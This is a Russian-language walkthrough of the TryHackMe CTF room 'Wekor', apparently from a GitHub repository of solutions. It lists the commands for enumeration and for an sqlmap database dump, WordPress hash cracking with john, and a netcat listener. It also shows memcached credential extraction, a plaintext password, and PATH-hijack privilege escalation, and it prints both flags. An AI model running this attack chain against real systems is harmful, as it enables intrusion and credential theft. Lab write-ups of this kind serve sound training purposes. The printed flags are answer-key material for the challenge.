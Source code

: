 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Wekor](https://tryhackme.com/r/room/wekorra) 

Всего 2 задания:
## Задание 1
Привет всем! Эта коробка — просто небольшой CTF, который я недавно подготовил. Надеюсь, вам понравится, так как я 
впервые создаю что-то подобное!

Данный CTF в первую очередь ориентирован на перечисление, лучшее понимание сервисов и нестандартное мышление для 
некоторых частей этой машины.

Не стесняйтесь задавать любые вопросы... Ничего страшного, если в некоторых частях коробки вы запутаетесь ;)

Небольшое примечание: пожалуйста, используйте домен: "wekor.thm", так как он может пригодиться позже в поле ;)

### Ответьте на вопросы ниже
Разверните Машину!
```commandline
Ответ не нужен
```

## Задание 2
Время отправлять флаги :)
### Ответьте на вопросы ниже
Что такое флаг пользователя?
```commandline
echo "<IP> wekor.thm" | sudo tee -a /etc/hosts
for i in `curl -s http://wekor.thm/robots.txt | grep Disallow | cut -d " " -f2`;do echo $i;curl -I http://wekor.thm$i;echo "---";done
curl -s http://wekor.thm/comingreallysoon/
sqlmap -r it_cart_coupon.xml --dump-all --threads=10
ll
tree wordpress
cat wp_users.csv
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
echo "<IP> site.wekor.thm" | sudo tee -a /etc/hosts
admin: Administrator
wp_eagle: Subscriber
wp_jeffrey: Subscriber
wp_yura: Administrator

nc -nlvp 4444
echo "stats items" | nc -vn -w 1 127.0.0.1 11211
echo "stats cachedump 1 0" | nc -vn -w 1 127.0.0.1 11211
echo "get username" | nc -vn -w 1 127.0.0.1 11211
echo "get password" | nc -vn -w 1 127.0.0.1 11211
Orka:OrkAiSC00L24/7$
su Orka
Password: OrkAiSC00L24/7$
cat /home/Orka/user.txt
```
```commandline
1a26a6d51c0172400add0e297608dec6
```
Что такое корневой флаг?
```commandline
sudo -l
./bitcoin
echo $PATH
ls -la /usr/sbin/ | head
cat > /usr/sbin/python << EOF
#!/bin/bash
/bin/bash
EOF

chmod +x /usr/sbin/python
sudo /home/Orka/Desktop/bitcoin
20
cat /root/root.txt
```
```commandline
f4e788f87cc3afaecbaf0f0fe9ae6ad7
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)